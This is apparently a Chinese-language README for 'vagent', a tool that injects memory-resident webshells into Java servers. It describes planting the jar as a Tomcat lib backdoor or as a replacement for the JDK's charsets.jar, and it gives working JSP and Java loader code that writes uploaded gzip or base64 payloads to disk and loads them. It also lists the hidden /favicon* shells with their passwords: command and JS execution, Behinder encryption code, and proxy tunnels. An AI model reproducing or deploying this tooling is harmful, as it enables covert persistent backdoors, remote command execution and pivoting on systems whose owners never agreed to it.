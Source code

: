 # vagent内存马注入工具

### 使用说明：

vagent有四种使用方式

#### 1.命令行方式加载

java -jar vagent.jar

会自动注入内存马到所有java起的服务内



#### 2.Tomcat lib 后门加载

将 vagent.jar 放在 Tomcat 目录下的lib目录就可以了，名字可以随意更改，Tomcat重启后会自动注入内存马



#### 3.jdk/jre Spring后门加载

将 vagent.jar 更名为 charsets.jar 放至 JAVA_HOME/jre/lib/ 目录下，替换原有的charsets.jar文件，Spring重启时会自动注入内存马

根据业务情况，有概率无需重启，发送下面的包就可以注入内存马

```http
GET / HTTP/1.1
Accept: text/html;charset=GBK
```



#### 4. JSP/java代码/命令写入文件 加载



##### 1.JAVA代码方式

需要先上传vagent.jar到目标服务器上

再运行下面的代码注入内存马

```java
java.net.URLClassLoader cl = new java.net.URLClassLoader(new java.net.URL[]{new java.io.File(FilePath).toURI().toURL()});
cl.loadClass("org.apache.catalina.servlets.Attach").getMethod("att", String.class).invoke(null,"ignored");
```



##### 2.JSP方式

```jsp
<%
    try {
        String f = System.getProperty("java.io.tmpdir") + "/" + Math.random();
        java.io.InputStream g = new java.util.zip.GZIPInputStream(request.getInputStream());
        java.io.FileOutputStream o = new java.io.FileOutputStream(f);
        byte[] t = new byte[1024];int n;while((n = g.read(t)) != -1) {o.write(t, 0, n);}g.close();o.close();
        java.net.URLClassLoader cl = new java.net.URLClassLoader(new java.net.URL[]{new java.io.File(f).toURI().toURL()});
        cl.loadClass("org.apache.catalina.servlets.Attach").getMethod("att", String.class).invoke(null,"ignored");
    } catch (Exception e) {
        out.println(e.getMessage());
    }
%>
```

然后用postman 发送gzip压缩后两次，注意是两次，的 vagent.jar 大马文件（用burp的paste from file 会出问题）

base64方式

```
<%
    try {
        String f = System.getProperty("java.io.tmpdir") + "/" + Math.random();
        String b = request.getParameter("c");
        Class base64;
        byte[] value = null;
        try {
            base64 =Class.forName("java.util.Base64");Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
            value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { b });
        }catch (Exception e){
            base64=Class.forName("sun.misc.BASE64Decoder"); Object decoder = base64.newInstance();
            value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { b });
            e.printStackTrace();
        }
        java.io.InputStream d = new java.io.ByteArrayInputStream(value);
        java.io.InputStream g = new java.util.zip.GZIPInputStream(d);
        java.io.FileOutputStream o = new java.io.FileOutputStream(f);
        byte[] t = new byte[1024];int n;while((n = g.read(t)) != -1) {o.write(t, 0, n);}g.close();o.close();
        java.net.URLClassLoader cl = new java.net.URLClassLoader(new java.net.URL[]{new java.net.URL("file:///"+f)}, getClass().getClassLoader());
        cl.loadClass("org.apache.catalina.servlets.Attach").getMethod("att", String.class).invoke(null,"ignored");
    }catch (Exception e){
        e.printStackTrace();
    }
%>
```



```bash
//gzip 压缩两次：

cp vagent.jar x
gzip x
mv x.gz x
gzip x
```

##### 3.利用命令写文件，使用vagent-mini先注入小马：

在遇到只有命令执行来写入文件的情况，可以先写入一个vagent-mini.jar小马

然后运行 java -jar vagent-mini.jar 注入小马

vagent-mini小马依赖于jdk环境，如果目标只有jre环境可能会注入失败，vagent大马则jre和jdk环境都通用

链接：以/faviconmini 结尾

```bash
//gzip 压缩两次：

cp vagent.jar x
gzip x
mv x.gz x
gzip x
```

然后用postman 发送gzip压缩两次，注意是两次，后的 vagent.jar 大马文件到链接路径注入大马（用burp的paste from file 会出问题）



### 注入的内存马：

#### 1.冰蝎

链接：以 /faviconb 结尾

密码：自定义加解密协议

```java
private byte[] Encrypt(byte[] data) {
    byte[] dt = new byte[data.length];
    for (int i = 0; i < data.length; i++) {
        dt[i] = (byte) (data[i] + 1);
    }
    try {
        java.io.ByteArrayOutputStream o = new java.io.ByteArrayOutputStream();
        java.util.zip.GZIPOutputStream g = new java.util.zip.GZIPOutputStream(o);
        g.write(dt);
        g.close();
        byte[] c = o.toByteArray();
        byte[] ct = new byte[c.length];

        for (int i = 0; i < c.length; i++) {
            ct[i] = (byte) (c[i] + 1);
        }
        return ct;
    } catch (Exception ignored) {
    }
    return data;
}


private byte[] Decrypt(byte[] data) {
    byte[] dt = new byte[data.length];
    for (int i = 0; i < data.length; i++) {
        dt[i] = (byte) (data[i] - 1);
    }
    try {
        java.io.ByteArrayInputStream t = new java.io.ByteArrayInputStream(dt);
        java.util.zip.GZIPInputStream i = new java.util.zip.GZIPInputStream(t, dt.length);
        byte[] c = r(i);
        byte[] ct = new byte[c.length];
        for (int b = 0; b < c.length; b++) {
            ct[b] = (byte) (c[b] - 1);
        }
        return ct;
    } catch (Exception ignored) {
    }
    return data;
}
private byte[] r(java.io.InputStream i) {
    byte[] temp = new byte[1024];
    java.io.ByteArrayOutputStream b = new java.io.ByteArrayOutputStream();
    int n;
    try {
        while((n = i.read(temp)) != -1) {b.write(temp, 0, n);
        }} catch (Exception ignored) {
    }
    return b.toByteArray();
}
```



#### 2.CMD马

链接：以 /faviconc 结尾

POST两次Base64以后的命令



#### 3.JS代码执行马

链接：以 /faviconjs 结尾

POST两次Base64以后的js代码

也可以使用蚁剑连接，密码是a



#### 4.Neo代理内存马

链接：以 /faviconneo 结尾

密码：page，要加--skip

python3 neoreg.py -k page -u URL -p 1083 --skip



#### 5.Suo5代理内存马

链接：以 /faviconsuo 结尾

无需密码



#### 6.WebSocket代理内存马

链接：以 /faviconws 结尾

无需密码，使用gost进行连接











